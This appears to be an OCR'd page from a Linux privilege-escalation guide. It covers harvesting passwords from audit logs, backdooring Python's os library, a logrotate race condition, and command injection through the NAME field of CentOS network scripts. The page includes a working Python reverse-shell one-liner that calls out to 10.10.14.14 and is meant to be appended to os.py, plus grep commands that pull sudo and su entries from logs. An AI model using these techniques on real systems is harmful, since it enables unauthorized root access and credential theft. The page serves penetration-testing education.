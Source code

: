 Logs
If you can read logs, you may be able to find interesting/confidential information inside of them. The more strange the log is, the more interesting will be (probably).
Also, some "bad" configured (backdoored?) audit logs may allow you to record passwords inside audit logs as explained in this post: https://www.redsiege.com/blog/2019/05/logging-passwords-on-linux/.

aureport --tty | grep -E "su |sudo " | sed -E "s,su|sudo,${C}[1;31m&${C}[0m,g"
grep -RE 'comm="su"|comm="sudo"' /var/log* 2>/dev/null
In order to read logs the group adm will be really helpful.

Generic Creds Search/Regex
You should also check for files containing the word "password" in it's name or inside the content, also check for IPs and emails inside logs, or hashes regexps.
I'm not going to list here how to do all of this but if you are interested you can check the last checks that linpeas perform.

Writable files
Python library hijacking
If you know from where a python script is going to be executed and you can write inside that folder or you can modify python libraries, you can modify the os library and backdoor it (if you can write where python script is going to be executed, copy and paste the os.py library).

To backdoor the library just add at the end of the os.py library the following line (change IP and PORT):

import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.14",5678));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
Logrotate exploitation
There is a vulnerability on logrotatethat allows a user with write permissions over a log file or any of its parent directories to make logrotatewrite a file in any location. If logrotate is being executed by root, then the user will be able to write any file in /etc/bash_completion.d/ that will be executed by any user that login.
So, if you have write perms over a log file or any of its parent folder, you can privesc (on most linux distributions, logrotate is executed automatically once a day as user root). Also, check if apart of /var/log there are more files being rotated.

This vulnerability affects logrotate version 3.15.1 and below

More detailed information about the vulnerability can be found in this page: https://tech.feedyourhead.at/content/details-of-a-logrotate-race-condition.

You can exploit this vulnerability with logrotten.

This vulnerability is very similar to CVE-2016-1247 (nginx logs), so whenever you find that you can alter logs, check who is managing those logs and check if you can escalate privileges substituting the logs by symlinks.

/etc/sysconfig/network-scripts/ (Centos/Redhat)
If, for whatever reason, a user is able to write an ifcf-<whatever> script to /etc/sysconfig/network-scripts or it can adjust an existing one, then your system is pwned.

Network scripts, ifcg-eth0 for example are used for network connections. The look exactly like .INI files. However, they are ~sourced~ on Linux by Network Manager (dispatcher.d).

In my case, the NAME= attributed in these network scripts is not handled correctly. If you have white/blank space in the name the system tries to execute the part after the white/blank space. Which means; everything after the first blank space is executed as root.
